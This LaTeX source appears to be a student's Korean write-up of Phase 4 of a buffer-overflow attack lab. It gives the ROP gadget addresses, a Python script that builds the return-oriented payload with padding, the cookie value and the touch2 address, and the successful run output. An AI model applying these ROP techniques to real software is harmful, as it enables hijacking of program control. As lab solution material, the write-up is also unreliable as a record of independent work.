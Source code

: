 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 4}
ROP를 위한 가젯을 찾아 본 결과, \texttt{popq \%rax; retq}과 \texttt{movq \%rax,
\%rdi; retq} 명령어에 해당하는 byte pattern을 \texttt{0x4019e7},
\texttt{0x4019f8} 주소에서 찾을 수 있었다. rax 레지스터를 pop하는 가젯의 주소
다음, rax 레지스터에 들어갈 cookie 값을 배치한 다음 mov 명령어를 실행하는
가젯의 주소를 배치하고, \texttt{touch2} 함수의 주소를 배치하면 공격할 수 있을
것이다. 공격을 위한 input string을 만드는 코드는 다음과 같다.
\begin{lstlisting}[language=Python]
import struct

with open("phase4_payload.bin", "wb") as f:
    f.write(b"A" * 0x18)
    f.write(struct.pack("<q", 0x4019E7))
    f.write(struct.pack("<q", 0x3E52DFF5))
    f.write(struct.pack("<q", 0x4019F8))
    f.write(struct.pack("<q", 0x401879))
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase4\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./rtarget < phase4_payload.bin
Cookie: 0x3e52dff5
Type string:Touch2!: You called touch2(0x3e52dff5)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
